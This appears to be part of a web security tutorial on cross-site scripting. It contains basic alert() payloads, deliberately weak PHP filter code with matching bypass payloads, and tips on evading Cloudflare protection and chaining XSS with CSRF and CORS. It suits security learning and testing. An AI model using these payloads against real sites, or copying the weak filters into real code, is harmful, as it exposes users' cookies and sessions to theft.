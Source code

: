 ## 7. Cross Site Scripting (XSS)

![](https://miro.medium.com/v2/resize:fit:600/0*OgDrgZakNWFRIiIu.png)

**What is XSS attack?**

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page. (Taken From OWASP)

**Four types of XSS**
```
1. Reflected XSS
2. Stored XSS
3. Dom XSS
4. Self XSS
```


**Simple 3 Ways to exeecute javascript in browser**

>Using Script Tag

```
<script>alert('Hello');</script>
```

>Using Events

```
<img src=noimg onerror=alert('Hello');>
```

>Call JavaScript Functions in URL

```
<a href='javascript:alert("Hello");'>Click me</a>
```

**HTML events that can be used to execute JavaScript**

```
onAbort
onBlur
onChange
onClick
onDblClick
onDragDrop
onError
onFocus
onKeyDown
onKeyPress
onKeyUp
onLoad
onMouseDown
onMouseMove
onMouseOut
onMouseOver
onMouseUp
onMove
onReset
onResize
onSelect
onSubmit
onUnload
onscroll
onbort
onmouseleave
oninput
```

## Bypass Methods

**Replacement Filter**

>Example PHP Code

```
<?php
$name = preg_replace('/script/i', '', $_GET['name']);
echo $name;
?>
```

>Bypass Payload (String in String)

```
<scrscriptipt>alert('Hello')</scrscriptipt>
```

**Bypass ()**

>Example PHP Code

```
<?php
$name = $_GET['name'];
$ban = array('\(', '\)');
foreach($ban as $banned){
while(preg_match( '/'.$banned.'/i', $name)){
$name = preg_replace('/'.$banned.'/i', '', $name);}}
echo $name; ?>
```

>Bypass Payload

```
alert`Hello`
```

**Tips For XSS**

>1. Allow Uploading HTML File Or Unknown File Extensions Lead To XSS in some browser. Bypass Extensions (html,htm.pngs,jpegs,txts)
>2. If target web is protected by CloudFlare.Find the real ip of this web and inject xss payloads with host header injection.
>3.We can perform CSRF and CORS attacks with XSS.
